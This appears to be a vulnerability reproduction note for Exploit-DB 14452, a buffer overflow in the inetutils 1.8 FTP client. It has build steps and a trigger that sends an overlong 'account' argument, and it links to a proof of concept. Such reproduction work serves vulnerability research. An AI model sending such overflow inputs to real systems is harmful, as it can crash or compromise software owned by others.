 # EDB-14452

## Experiment Environment

Ubuntu 10.04

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/EDB-14452/inetutils-1.8.tar.gz
tar -xvf inetutils-1.8.tar.gz
cd inetutils-1.8/
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
cd ftp

./ftp localhost
## login with normal user
ftp> account aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

## PoCs

[FTP Client 0.17-19build1 ACCT (Ubuntu 10.04) - Buffer Overflow (PoC)](https://www.exploit-db.com/exploits/14452/)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

## References
